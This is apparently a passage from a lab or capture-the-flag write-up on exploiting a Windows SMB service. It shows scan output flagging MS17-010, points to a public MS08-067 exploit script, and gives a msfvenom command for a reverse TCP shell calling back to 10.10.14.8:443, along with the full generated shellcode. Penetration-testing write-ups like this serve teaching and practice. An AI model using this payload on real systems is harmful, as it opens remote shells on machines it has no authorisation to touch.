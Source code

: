 |     Disclosure date: 2017-03-14
|     References:                                                                                                                                                             
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/                                                                         
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                    
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
{{< /highlight >}}

**->** SMB appears to be vulnerable to the well known **MS08-067** and **MS17-010**. At this point I have to choose a way to proceed. I will exploit the `MS08-067` vulnerability without Metasploit.

**Note**: There are 2 modules (for both the vulnerabilities) available in Metasploit.


# Exploitation

After doing some research on the web, I found this python script that exploits **MS08-067**: https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py.

After reading the code, I can see that the exploit requires me to replace the default shellcode with a custom one. To make the shellcode, I use the following options in msfvenom:

{{< highlight html >}}
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows -v shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1494 bytes
unsigned char shellcode[] =
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x63\xad\xf8\xc0\x83\xee\xfc\xe2\xf4\x9f\x45\x7a\xc0\x63\xad"
"\x98\x49\x86\x9c\x38\xa4\xe8\xfd\xc8\x4b\x31\xa1\x73\x92\x77"
"\x26\x8a\xe8\x6c\x1a\xb2\xe6\x52\x52\x54\xfc\x02\xd1\xfa\xec"
"\x43\x6c\x37\xcd\x62\x6a\x1a\x32\x31\xfa\x73\x92\x73\x26\xb2"
"\xfc\xe8\xe1\xe9\xb8\x80\xe5\xf9\x11\x32\x26\xa1\xe0\x62\x7e"
"\x73\x89\x7b\x4e\xc2\x89\xe8\x99\x73\xc1\xb5\x9c\x07\x6c\xa2"
"\x62\xf5\xc1\xa4\x95\x18\xb5\x95\xae\x85\x38\x58\xd0\xdc\xb5"
"\x87\xf5\x73\x98\x47\xac\x2b\xa6\xe8\xa1\xb3\x4b\x3b\xb1\xf9"
"\x13\xe8\xa9\x73\xc1\xb3\x24\xbc\xe4\x47\xf6\xa3\xa1\x3a\xf7"
"\xa9\x3f\x83\xf2\xa7\x9a\xe8\xbf\x13\x4d\x3e\xc5\xcb\xf2\x63"
"\xad\x90\xb7\x10\x9f\xa7\x94\x0b\xe1\x8f\xe6\x64\x52\x2d\x78"
"\xf3\xac\xf8\xc0\x4a\x69\xac\x90\x0b\x84\x78\xab\x63\x52\x2d"
"\x90\x33\xfd\xa8\x80\x33\xed\xa8\xa8\x89\xa2\x27\x20\x9c\x78"
"\x6f\xaa\x66\xc5\xf2\xca\x6d\xa5\x90\xc2\x63\xac\x43\x49\x85"
"\xc7\xe8\x96\x34\xc5\x61\x65\x17\xcc\x07\x15\xe6\x6d\x8c\xcc"
"\x9c\xe3\xf0\xb5\x8f\xc5\x08\x75\xc1\xfb\x07\x15\x0b\xce\x95"
"\xa4\x63\x24\x1b\x97\x34\xfa\xc9\x36\x09\xbf\xa1\x96\x81\x50"
"\x9e\x07\x27\x89\xc4\xc1\x62\x20\xbc\xe4\x73\x6b\xf8\x84\x37"
"\xfd\xae\x96\x35\xeb\xae\x8e\x35\xfb\xab\x96\x0b\xd4\x34\xff"
"\xe5\x52\x2d\x49\x83\xe3\xae\x86\x9c\x9d\x90\xc8\xe4\xb0\x98"
"\x3f\xb6\x16\x18\xdd\x49\xa7\x90\x66\xf6\x10\x65\x3f\xb6\x91"
"\xfe\xbc\x69\x2d\x03\x20\x16\xa8\x43\x87\x70\xdf\x97\xaa\x63"
"\xfe\x07\x15";
{{< /highlight >}}
